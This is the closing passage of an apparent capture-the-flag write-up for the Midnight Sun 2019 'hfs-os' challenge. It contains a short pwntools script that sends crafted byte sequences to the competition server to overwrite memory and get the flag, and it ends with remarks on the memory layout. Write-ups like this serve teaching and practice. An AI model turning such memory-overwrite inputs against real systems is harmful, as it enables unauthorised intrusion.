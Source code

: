 Take note that the pointer will be reset after 4 input characters, so we cannot just do everything in one shot.

```py
from pwn import *

p = remote("hfs-os-01.play.midnightsunctf.se", 31337)
# p = process("./run")

sleep(1)
p.sendline("sojupwner")
p.send("\x7f" * 11 + "\x4f\x01\x4f\x01")
p.send("\x7f" * 6 + "LAG2")
p.send("pong")
p.interactive()
```

`midnight{th4t_was_n0t_4_buG_1t_is_a_fEatuR3}`

---

I think the memory layout of the variables couldn't have been better placed... If the function table or flag file name was below the input buffer this would have been a big headache.

Feel free to ask anything in the comments.

[part1]:{{site.baseurl}}/ctfs/midnight-sun-quals-19/hfs-mbr/hfs-mbr
[download]:{{site.baseurl}}/ctfs/midnight-sun-quals-19/hfs-mbr/hfs-os.tar.gz
[gdbinit]:{{site.baseurl}}/ctfs/midnight-sun-quals-19/hfs-dos/gdbinit